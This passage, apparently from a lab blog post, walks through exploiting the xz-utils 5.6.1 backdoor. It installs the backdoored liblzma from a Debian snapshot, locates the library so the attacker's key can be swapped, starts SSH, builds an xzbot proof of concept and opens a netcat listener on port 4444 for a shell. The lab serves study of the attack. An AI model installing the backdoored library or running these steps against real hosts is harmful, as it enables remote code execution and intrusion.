 The exploitation is not very complex. However, it's important to keep in mind that mass exploitation is not possible because **you do not know the attacker's private key.**

In our lab, we will modify the attacker's public key with ours to ensure the correct signature.

To begin, it's necessary to install the vulnerable version on the machine to be exploited.

```bash
sudo apt remove xz-utils
wget https://snapshot.debian.org/archive/debian/20240328T025657Z/pool/main/x/xz-utils/liblzma5_5.6.1-1_amd64.deb
dpkg -i liblzma5_5.6.1-1_amd64.deb 
```

![alt text](/images/xz-utils-:-la-backdoor-faisant-trembler-le-monde-libre/demo1.png)

Verify that you are indeed vulnerable with the command:

```bash
xz -V                                

xz (XZ Utils) 5.6.1
liblzma 5.6.1
```

Locate and modify the backdoor signature:

```bash
sudo find / -name "liblzma.so.5.6.1" 2> /dev/null

# /usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1
                                                                                                                   
shasum -a 256 /usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1

# 605861f833fc181c7cdcabd5577ddb8989bea332648a8f498b4eef89b8f85ad4  /usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1
```

{{< admonition tips "More Info!" >}}
If you need help with this step: https://github.com/amlweems/xzbot
{{< /admonition >}}

![alt text](/images/xz-utils-:-la-backdoor-faisant-trembler-le-monde-libre/demo2.png)

![alt text](/images/xz-utils-:-la-backdoor-faisant-trembler-le-monde-libre/demo3.png)

Start the `SSH` service:

```sh
sudo systemctl start ssh
```

![alt text](/images/xz-utils-:-la-backdoor-faisant-trembler-le-monde-libre/demo4.png)

Build the PoC binary and open a `netcat` listener.

```sh
go build .

# Other terminal
nc -lvp 4444
```
